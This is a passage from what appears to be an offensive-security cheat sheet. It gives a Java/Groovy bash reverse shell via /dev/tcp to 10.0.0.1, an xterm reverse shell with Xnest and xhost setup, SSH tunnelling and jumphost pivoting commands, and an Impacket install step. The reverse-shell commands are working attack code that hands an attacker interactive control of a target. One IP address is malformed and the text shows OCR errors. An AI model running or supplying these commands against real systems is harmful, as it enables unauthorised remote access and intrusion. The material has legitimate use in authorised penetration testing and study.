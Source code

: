 Java
``` 
    r = Runtime.getRuntime()
    p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
    p.waitFor()
```

xterm

One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.
```
    xterm -display 10.0.0.1:1
```

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):
``` 
    Xnest :1
```

your’ll need to authorise the target to connect to you (command also run on your host):
``` 
    xhost +targetip
```

### SSH Tunnels

Send data over ssh to port 9000 on target

```
    ssh -L 8090:localhost:9000 james@123.123.123
```


Send data over ssh to port 80 on target through jumphost

```
    ssh -A -t -p22 -L 8800:localhost:8800 james@123.001.123.321 -t ssh -L 8800:localhost:80 james@124.123.122
```

Start ssh using existing connections
```
    nano ~/.ssh/config
    ControlMaster auto
    ControlPath ~/.ssh/control:%h:%p:%r
```

### Impacket

Source: https://github.com/CoreSecurity/impacket/releases/tag/impacket_0_9_15

#### Install impacket on Windows
```
    git clone https://github.com/CoreSecurity/impacket.git
```
